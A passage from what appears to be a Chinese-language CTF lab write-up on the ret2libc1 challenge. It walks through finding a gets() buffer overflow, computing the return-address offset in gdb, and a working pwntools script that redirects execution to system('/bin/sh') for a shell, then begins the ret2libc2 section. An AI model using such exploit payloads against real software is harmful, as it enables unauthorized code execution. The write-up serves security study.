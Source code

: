 因此构思获得shell的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。
2. 覆盖`main()`函数的返回地址为`_system`函数的地址`0x08048460`
3. 在后续填入一个32位的虚假返回地址
4. 在后续填入字符串`/bin/sh`的地址`0x08048720`
5. 当`main()`函数执行完毕退出时，eip指针返回到`_system`函数的地址并读入后续的虚假返回地址和字符串参数，并最终启动一个子进程弹出shell供攻击者使用

### 攻击复现

接下来实现攻击，同上面题目，要先确定`main()`函数返回地址。

![image-20230424105219836](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304241052849.png)

![image-20230424105306288](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304241053358.png)

使用与上一题一样的步骤，在`call _gets`的地址`0x0804867E`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffced0`，其存放的内容即字符串`s`的地址为`0xffffceec`；基址指针寄存器ebp的地址为`0xffffcf58`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcf58-0xffffceec=0x6c`。此时内存结构如下图所示：

![image-20230424105446557](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053669.png)

根据上述思路编写payload，构造内存结果如下：

![image-20230424222852528](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242228608.png)

最后的payload如下：

```python
from pwn import *

sh = process('./ret2libc1')
binsh = 0x8048720
system = 0x08048460
sh.sendline(b'a' * 112 + p32(system) + b'a' * 4 + p32(binsh))
sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230424110223191](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053879.png)

## ret2libc2复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 使用二进制调试工具（gdb）查看寄存器与内存内容
- 查阅手册，利用libc中的函数
- 利用gadgets构造栈帧，通过ROP调用系统调用
- 利用gadgets自行写入所需要的字符串参数
- 计算需要覆写的返回地址的偏移
- payload构造
